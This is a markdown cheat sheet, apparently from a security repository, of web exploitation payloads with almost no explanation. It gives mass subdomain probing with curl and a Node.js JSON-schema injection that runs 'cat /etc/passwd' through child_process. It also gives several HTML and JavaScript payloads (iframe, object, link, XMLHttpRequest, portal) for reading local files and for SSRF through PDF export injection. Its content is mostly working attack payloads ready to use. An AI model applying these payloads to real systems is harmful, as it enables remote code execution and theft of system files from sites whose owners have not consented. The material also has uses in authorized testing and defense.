 # Web Exploitation Methods

## Enumeration

## HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

## Exploitation

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```